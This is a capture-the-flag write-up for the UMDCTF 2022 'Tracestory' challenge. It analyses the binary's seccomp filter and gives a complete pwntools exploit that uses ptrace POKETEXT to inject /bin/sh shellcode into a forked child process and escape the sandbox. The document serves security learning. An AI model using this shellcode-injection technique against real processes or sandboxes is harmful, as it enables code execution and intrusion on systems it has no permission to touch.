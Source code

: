 ```yaml
---
title: UMDCTF 2022 Tracestory
date: 2022-03-07
categories: [ctf]
tags: [umdctf, seccomp, ptrace]
---
```


# UMDCTF 2022

## Tracestory

> I am trying to figure out the end of this story, but I am not able to read it. Could you help me figure out what it is?
>
> **Author**: WittsEnd2
>
> `0.cloud.chals.io 15148`

## Summary

This is a seccomp challenge where you have to utilize `ptrace` to change behavior of child process.

## Analysis

### Binary Analysis

Looking at `main` function, here are interesting things:

1. Uses seccomp
2. Uses fork
   1. Child process calls function called `read_story()`
   2. Parent process then calls `read_input()` then `setup_seccomp()`
3. Whatever gets written to `read_input()` will eventually be called as function in `var_1020()`

Child is forked off before `seccomp` rules gets applied.
Parent process gets input from user then just executes it. (Memory where they store the user function is mmaped with `xwr` permission)


### Seccomp Rules Analysis
![](/assets/img/2022-03-07-21-24-37.png)

Using `seccomp-tools`, you can dump the seccomp rules

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x18 0xc000003e  if (A != ARCH_X86_64) goto 0026
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x15 0xffffffff  if (A != 0xffffffff) goto 0026
 0005: 0x15 0x13 0x00 0x00000003  if (A == close) goto 0025
 0006: 0x15 0x12 0x00 0x00000004  if (A == stat) goto 0025
 0007: 0x15 0x11 0x00 0x00000005  if (A == fstat) goto 0025
 0008: 0x15 0x10 0x00 0x00000006  if (A == lstat) goto 0025
 0009: 0x15 0x0f 0x00 0x0000000a  if (A == mprotect) goto 0025
 0010: 0x15 0x0e 0x00 0x0000000c  if (A == brk) goto 0025
 0011: 0x15 0x0d 0x00 0x00000015  if (A == access) goto 0025
 0012: 0x15 0x0c 0x00 0x00000018  if (A == sched_yield) goto 0025
 0013: 0x15 0x0b 0x00 0x00000020  if (A == dup) goto 0025
 0014: 0x15 0x0a 0x00 0x00000021  if (A == dup2) goto 0025
 0015: 0x15 0x09 0x00 0x00000038  if (A == clone) goto 0025
 0016: 0x15 0x08 0x00 0x0000003c  if (A == exit) goto 0025
 0017: 0x15 0x07 0x00 0x0000003e  if (A == kill) goto 0025
 0018: 0x15 0x06 0x00 0x00000050  if (A == chdir) goto 0025
 0019: 0x15 0x05 0x00 0x00000051  if (A == fchdir) goto 0025
 0020: 0x15 0x04 0x00 0x00000060  if (A == gettimeofday) goto 0025
 0021: 0x15 0x03 0x00 0x00000065  if (A == ptrace) goto 0025
 0022: 0x15 0x02 0x00 0x00000066  if (A == getuid) goto 0025
 0023: 0x15 0x01 0x00 0x00000068  if (A == getgid) goto 0025
 0024: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0026
 0025: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0026: 0x06 0x00 0x00 0x00000000  return KILL
```

Simplified view of above rules

 ### allowed syscalls

```
 close
 stat
 fstat
 lstat
 mprotect
 brk
 access
 sched_yield
 dup
 dup2
 clone
 exit
 kill
 chdir
 fchdir
 gettimeofday
 ptrace
 getuid
 getgid
 exit_group
```

Looking at these syscall, only write primitive syscall was `ptrace` and also the challenge is called `trace_story` so it is very obvious that we would need to use `ptrace` eventually.

## Solution

We can use `ptrace` to overwrite child's text segment with our assembly code. Child process executes random code in a infinite loop so we can just overwrite the code in the beginning of the infinite loop.

Usual process for using `ptrace` function goes as follow
Attach to child process `ptrace(PTRACE_ATTACH, CHILD_PID, 0, 0)` -> Wait for child to attach `wait(0)` -> Write to child's text segment to change the code by `ptrace(PTRACE_POKETEXT, CHILD_PID, CODE_ADDRESS, 8_BYTES_OF_CODE)` -> Detach from child `ptrace(PTRACE_DETACH, CHILD_PID, 0, 0)`

Problem is we don't have `wait()` in our syscall. So we can probably use `gettimeofday` and calculate our time that way but as great Ken Thompson said once, `When in doubt, use brute force.` So I will just attach -> write_text -> detach -> go back to beginning and repeat.

### Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('trace_story')
context.terminal = ['tmux', 'splitw', '-h']



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(args.HOST, int(args.PORT))
    else:
        return process([exe.path] + argv, *a, **kw)



gdbscript = f'''
tbreak main
set follow-fork-mode parent
# set detach-on-fork off

b *0x401907
# b *0x401789
continue
'''.format(**locals())

# -- Exploit goes here --
"""
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
"""

io = start()


io.recvuntil("pid: ")
pid = int(io.recvline().strip())
print(f'pid is {pid}')




payload = "begin:"
payload += shellcraft.ptrace(constants.linux.PTRACE_ATTACH, pid, 0, 0)

binsh = asm(shellcraft.sh())
start_addr = 0x401789

for i in range(0, int(len(binsh)/8)):
    load_shit = u64(binsh[i * 8:8+(i*8)])
    payload += shellcraft.ptrace(constants.linux.PTRACE_POKETEXT, pid, start_addr + (i * 8), load_shit)

payload += shellcraft.ptrace(constants.linux.PTRACE_DETACH, pid, 0, 0)

payload += """
jmp begin
"""

io.sendlineafter(b'Input: \n', asm(payload))

io.interactive()
```
